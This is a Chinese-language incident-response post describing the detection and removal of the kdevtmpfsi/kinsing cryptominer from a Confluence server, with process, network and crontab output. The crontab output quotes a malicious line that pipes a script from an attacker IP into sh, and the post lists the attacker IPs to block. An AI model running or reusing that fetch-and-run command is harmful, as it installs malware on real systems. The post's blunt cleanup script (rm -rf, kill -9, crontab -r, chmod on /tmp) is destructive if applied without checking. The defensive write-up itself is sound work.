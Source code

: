 ```yaml
---
title: 利用 Confluence 漏洞被挂挖矿木马 kdevtmpfsi 后处理方案
date: 2021-09-03
---
```



## 现象

服务器的 CPU 突然被异常进程 `kdevtmpfsi` 占满

``` bash
# top
  PID USER      PR  NI    VIRT    RES    SHR S  %CPU %MEM     TIME+ COMMAND
10346 conflue+  20   0 3481244   2.3g    272 S  1196 19.9   6290:48 kdevtmpfsi
```

## 检查

- 查看异常进程

``` bash
# ps -ef | grep kdevtmpfsi
root      7770 14501  0 23:35 pts/1    00:00:00 grep --color=auto kdevtmpfsi
conflue+ 10346     1 99 13:03 ?        5-05:38:24 /tmp/kdevtmpfsi

# systemctl status 10346
● session-364.scope - Session 364 of user root
   Loaded: loaded (/run/systemd/system/session-364.scope; static; vendor preset: disabled)
  Drop-In: /run/systemd/system/session-364.scope.d
           └─50-After-systemd-logind\x2eservice.conf, 50-After-systemd-user-sessions\x2eservice.conf, 50-Description.conf, 50-SendSIGHUP.conf, 50-Slice.conf, 50-TasksMax.conf
   Active: active (abandoned) since Tue 2021-01-26 02:42:54 EST; 7 months 5 days ago
   CGroup: /user.slice/user-0.slice/session-364.scope
           ├─ 9963 /tmp/kinsing         # Confluence 关联异常进程
           ├─10346 /tmp/kdevtmpfsi      # Confluence 关联异常进程
           ├─14586 /opt/atlassian/confluence/jre//bin/java ...
           └─14851 /opt/atlassian/confluence/jre/bin/java ...

# ll /tmp
...
-rwxr-x---. 1 confluence confluence  3930448 Sep  2 01:48 kdevtmpfsi      # 异常文件 
-rwxrwxrwx. 1 confluence confluence 14643200 Sep  2 01:46 kinsing         # 异常文件
-rwxrwxrwx. 1 confluence confluence    26800 Sep  1 13:02 libsystem.so    # 异常文件
-rw-------. 1 confluence confluence        0 Sep  1 13:02 linux.lock      # 异常文件
...
```

- 异常进程访问了异常/国外 IP

``` bash
# netstat –natp
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
...
tcp        0      0 xx.xx.xx.xx:41302       95.181.179.88:80        ESTABLISHED 10346/kdevtmpfsi   # 95.181.179.88 为国外 IP
...
```

- 异常定时任务

``` bash
# crontab -l -u confluence
* * * * * curl http://195.3.146.118/unk.sh | sh > /dev/null 2>&1
```


## 处理

- 删除异常定时任务
- 删除异常进程
- 设置文件夹访问权限

上述操作可参考以下脚本：

``` bash
crontab -r -u confluence
ps -aux | grep kinsing |grep -v grep |awk '{print $2}'
ps -aux | grep kdevtmpfsi |grep -v grep |awk '{print $2}'
ps -aux | grep kinsing |grep -v grep |awk '{print $11}'
ps -aux | grep kdevtmpfsi |grep -v grep |awk '{print $11}'
ps -aux | grep kinsing |grep -v grep |awk  '{print "rm -rf " $11}' |sh
ps -aux | grep kdevtmpfsi |grep -v grep |awk  '{print "rm -rf " $11}' |sh
ps -aux | grep kinsing |grep -v grep |awk  '{print "kill -9 " $2}' |sh
ps -aux | grep kdevtmpfsi |grep -v grep |awk  '{print "kill -9 " $2}' |sh

rm -rf /var/tmp/kinsing
rm -rf /tmp/libsystem.so
rm -rf /tmp/linux.lock

chmod -R 700 /tmp
chmod -R 700 /var/tmp

find / -name kdevtmpfsi
find / -name kinsing
```

- 禁止服务器访问异常 IP，参考：

```
195.3.146.118
142.44.191.122
185.92.74.42
217.12.221.244
93.189.43.3
185.154.53.140
```

- 关闭 Confluence 外网访问


## 参考

https://www.jianshu.com/p/9699251ad1d7

http://www.pangxieke.com/linux/virus-of-kdevtmpfsi.html

https://paper.seebug.org/884/

https://www.cnblogs.com/zhangjiahao/p/12634930.html

https://www.jianshu.com/p/60bbe86a7b33

https://guanjia.qq.com/news/n3/2581.html

https://www.cnblogs.com/hack404/p/11464890.html

